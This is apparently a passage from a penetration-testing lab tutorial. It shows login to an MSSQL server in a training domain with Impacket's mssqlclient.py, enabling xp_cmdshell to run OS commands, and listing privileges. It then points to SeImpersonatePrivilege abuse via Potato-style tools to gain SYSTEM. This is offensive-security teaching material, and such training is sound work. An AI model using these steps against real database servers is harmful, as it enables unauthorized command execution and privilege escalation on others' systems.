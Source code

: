 We can also authenticate from our Linux attack host using [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py) from the Impacket toolkit.

**Running mssqlclient.py Against the Target**

```shell-session
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
```

**Choosing enable\_xp\_cmdshell**

```shell-session
SQL> enable_xp_cmdshell

[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

**Enumerating our Rights on the System using xp\_cmdshell**

```shell-session
xp_cmdshell whoami /priv

output                                                                             
--------------------------------------------------------------------------------   
NULL                                                                               
PRIVILEGES INFORMATION                                                             
----------------------                                                             
NULL                                                                               
Privilege Name                Description                               State      
============================= ========================================= ========   
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
NULL                                                               
```

[SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) can be leveraged in combination with a tool such as [JuicyPotato](https://github.com/ohpe/juicy-potato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), or [RoguePotato](https://github.com/antonioCoco/RoguePotato) to escalate to `SYSTEM` level privileges


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> hostname
[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession